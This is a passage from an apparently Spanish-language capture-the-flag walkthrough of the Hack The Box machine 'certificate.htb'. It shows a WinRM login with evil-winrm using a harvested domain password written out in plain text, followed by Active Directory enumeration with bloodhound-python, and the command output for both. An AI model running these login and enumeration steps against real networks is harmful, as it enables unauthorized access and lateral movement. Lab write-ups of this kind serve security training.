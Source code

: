 Veremos que si funciona, por lo que estas credenciales son validas a nivel de dominio, pero si las probamos directamente a conectarnos por `WinRM`.

### Evil-winrm

```shell
evil-winrm -i <IP> -u sara.b -p Blink182
```

Info:

```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Sara.B\Documents> whoami
certificate\sara.b
```

Veremos que ha funcionado por lo que seremos dicho usuario.

## Escalate user lion.sk

Sabiendo que tenemos unas credenciales y que podemos entrar por `WinRM` vamos a descargarnos un `ZIP` que nos sirva para importarlo en la herramienta de `BloodHound` de esta forma.

```shell
bloodhound-python -u sara.b -p 'Blink182' -ns <IP> -d certificate.htb -c All --zip
```

Info:

```
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: certificate.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.certificate.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 3 computers
INFO: Connecting to LDAP server: dc01.certificate.htb
INFO: Found 19 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: WS-05.certificate.htb
INFO: Querying computer: WS-01.certificate.htb
INFO: Querying computer: DC01.certificate.htb
INFO: Done in 00M 06S
INFO: Compressing output into 20251018111648_bloodhound.zip
```
